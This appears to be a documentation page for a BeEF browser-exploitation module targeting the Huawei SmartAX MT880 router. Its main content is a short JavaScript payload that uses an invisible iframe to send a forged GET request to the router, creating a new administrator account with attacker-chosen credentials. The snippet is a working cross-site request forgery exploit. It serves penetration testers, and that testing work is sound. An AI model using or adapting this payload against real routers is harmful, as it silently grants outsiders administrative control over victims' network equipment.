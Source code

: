 ## Summary

* **Objective**: add an administrator account on a Huawei SmartAX MT880 router
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/router/huawei_smartax_mt880)

## Internal Working

Uses an invisible iframe with a GET request to add an admin account

```js
  var gateway  = '<%= @base %>';
  var username = '<%= @username %>';
  var passwd   = '<%= @password %>';
  var timeout  = 15;

  var huawei_smartax_mt880_iframe_<%= @command_id %> = beef.dom.createInvisibleIframe();
  huawei_smartax_mt880_iframe_<%= @command_id %>.setAttribute('src', gateway+"Action?user_id="+username+"&priv=1&pass1="+passwd+"&pass2="+passwd+"&id=70");

```

## Feedback

